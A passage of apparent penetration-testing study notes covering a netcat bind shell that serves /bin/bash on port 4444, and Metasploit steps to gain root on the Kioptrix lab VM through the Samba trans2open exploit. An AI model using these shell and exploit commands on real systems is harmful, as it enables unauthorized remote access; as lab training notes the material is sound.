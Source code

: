     ```Bash
    nc -nvlp 4444 -e /bin/bash
    ```
    
- This does the following
    1. -n = numeric only IP addresses
    2. -v = verbose
    3. -l = listen mode for inbound connections
    4. -p = specifies the port to listen on
- In terminal two, type:
    
    ```Bash
    nc ip_address_of_nc_server port_number
    ```
    

  

# Gaining root with Metasploit (Kioptrix SMB)

1. We identified samba 2.2 exploit with the use of searchsploit
    - trans2open
        
        ![[/image 2 7.png|image 2 7.png]]
        
2. Open Metasploit: msfconsole

- Search for trans2open
    
    ![[/image 3 5.png|image 3 5.png]]
    
- Select the module 
    
    ```Bash
    use 1
    OR
    use exploit/linux/samba/trans2open 
    ```
    
    ![[/image 4 5.png|image 4 5.png]]
    
- Set Options
    - set rhosts victim_ipAddress
- Run exploit
    
    ![[/image 5 5.png|image 5 5.png]]
    
- Other options
    - Set Payload
        
        ![[/image 6 5.png|image 6 5.png]]
        

# Bruteforce Attacks
